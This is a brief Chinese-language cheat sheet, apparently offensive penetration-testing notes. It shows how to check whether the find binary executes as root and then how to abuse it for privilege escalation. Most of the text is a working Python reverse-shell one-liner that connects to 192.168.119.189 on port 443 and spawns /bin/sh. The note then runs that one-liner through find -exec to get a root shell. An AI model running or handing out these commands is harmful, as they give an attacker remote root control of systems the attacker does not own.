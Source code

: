 # 确认 find 有 root 执行权限
执行命令
```
/usr/bin/find /tmp -exec whoami \;
```
确认 find 命令是否是 root 权限执行.

# 反弹 shell
1. 如果目标机上有 python 环境，可以使用 python 命令反弹 shell：
```
#反弹一个sh类型的shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.189",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 
```
结合 find :
```
/usr/bin/find /tmp -exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.189",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' \; 

```
